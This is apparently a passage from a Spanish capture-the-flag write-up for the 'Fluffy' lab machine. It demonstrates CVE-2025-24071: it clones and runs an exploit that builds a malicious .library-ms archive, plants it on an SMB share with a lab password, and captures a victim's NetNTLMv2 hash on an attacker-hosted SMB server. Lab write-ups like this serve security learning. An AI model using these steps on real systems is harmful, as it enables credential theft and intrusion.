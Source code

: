 ~~~ bash
impacket-smbserver shared $(pwd) -smb2support

Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
05/24/2025 11:12:36 PM: INFO: Config file parsed
~~~

Ejecutaremos el exploit, el cual creará dos archivos, un comprimido (`exploit.zip`) y el archivo `.library-ms` malicioso

~~~ bash
git clone https://github.com/ThemeHackers/CVE-2025-24071
cd CVE-2025-24071
pip install -r requirements.txt

# Consturimos los archivos
python3 exploit.py -i 10.10.16.89 -f poc
~~~

Recordemos que tenemos permisos de escritura sobre la ruta`IT`, además de que existen archivos `.zip` que claramente fueron extraídos, por lo que es probable que cuando subamos el comprimido aquí, alguien extraiga nuestro archivo `exploit.zip`

~~~ bash
smb: \> dir
  .                                   D        0  Sat Sep 20 19:39:57 2025
  ..                                  D        0  Sat Sep 20 19:39:57 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

		5842943 blocks of size 4096. 1956804 blocks available
~~~

Nos conectaremos a la ruta `IT` para subir el comprimido con el comando `put`

~~~ bash
smbclient //DC01.fluffy.htb/IT -U 'j.fleischman%J0elTHEM4n1990!'

smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (0.3 kb/s) (average 0.3 kb/s)
~~~

Cuando la víctima extraiga el archivo `exploit.zip`, se iniciará un proceso de autenticación NTLM hacia nuestro servidor SMB, capturando el hash `NetNTLMv2` que corresponde al usuario `p.agila`

~~~ bash
05/24/2025 11:13:32 PM: INFO: Incoming connection (10.10.11.69,56980)
05/24/2025 11:13:32 PM: INFO: AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
05/24/2025 11:13:32 PM: INFO: User DC01\p.agila authenticated successfully
05/24/2025 11:13:32 PM: INFO: p.agila::FLUFFY:aaaaaaaaaaaaaaaa:346ed0d6fb9525fc84beea7f2c9f97a6:010100000000000080f387364d2adc01ec7dc142c74320eb00000000010010004d0046007200520055006c004c006300030010004d0046007200520055006c004c006300020010004b007000420047006d00750069007600040010004b007000420047006d007500690076000700080080f387364d2adc01060004000200000008003000300000000000000001000000002000000783b7caacb5a2c6da5a06bc37b4432a0528d9d517548c083683bf4321cf45bd0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00380039000000000000000000
~~~
